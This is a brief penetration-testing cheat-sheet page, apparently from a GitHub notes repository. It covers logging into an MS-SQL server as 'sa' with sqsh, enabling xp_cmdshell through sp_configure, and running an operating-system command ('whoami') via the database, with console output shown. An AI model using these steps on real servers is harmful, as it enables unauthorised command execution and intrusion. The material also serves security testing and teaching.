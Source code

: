 # MS-SQL Databases

## Connecting to the Database

```
sqsh -S 192.168.0.6  -U sa 
```

## xp\_cmdshell

```sql
1> exec sp_configure 'show advanced options', 1 
2> go 
Configuration option 'show advanced options' changed from 0 to 1. Run the RECONFIGURE statement to install. 
(return status = 0) 
1> reconfigure 
2> go 
1> exec sp_configure 'xp_cmdshell', 1 
2> go 
Configuration option 'xp_cmdshell' changed from 0 to 1. Run the RECONFIGURE statement to install. 
(return status = 0) 
1> reconfigure 
2> go 
```

```sql
1> exec master..xp_cmdshell 'whoami' 
2> go 
```




